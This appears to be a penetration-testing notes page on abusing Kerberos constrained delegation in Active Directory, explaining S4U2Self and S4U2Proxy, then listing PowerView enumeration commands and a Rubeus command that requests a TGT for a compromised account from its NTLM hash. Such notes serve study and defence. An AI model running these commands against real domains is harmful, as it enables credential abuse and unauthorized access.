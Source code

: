 # Constrained Delegation

## Constrained Delegation

Created to solve the double hop kerberos issue.  
  
Since the Kerberos protocol does not natively support constrained delegation by default,Microsoft released two extensions for this feature: S4U2Self and S4U2Proxy  
  
 Together, these extensions solve the double-hop issue and limit access to only the desired backend service.  
  
 Constrained delegation is configured on the computer or user object. It is set through the msdsallowedtodelegateto property by specifying the SPNs the current object is allowed constraineddelegation against.  
  
- S4U2self = Allows a service to obtain a forwardable TGS to itself on behalf of the user  
- S4U2proxy = Allows a service to obtain a TGS to a second service on behalf of the user  
  
Contrained Delegation can be used on both **Users and Computers Objects**

![](../../../../.gitbook/assets/image%20%28312%29.png)

### Powerview Enumeration 

```csharp
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

![](../../../../.gitbook/assets/image%20%28294%29.png)

### Rubeus

#### Request a TGT for the compromised account

```csharp
.\Rubeus.exe asktgt /user:web01 /domain:crook.badcorp.local /rc4:<NTLM Hash> /outfile:t.kirbi
```

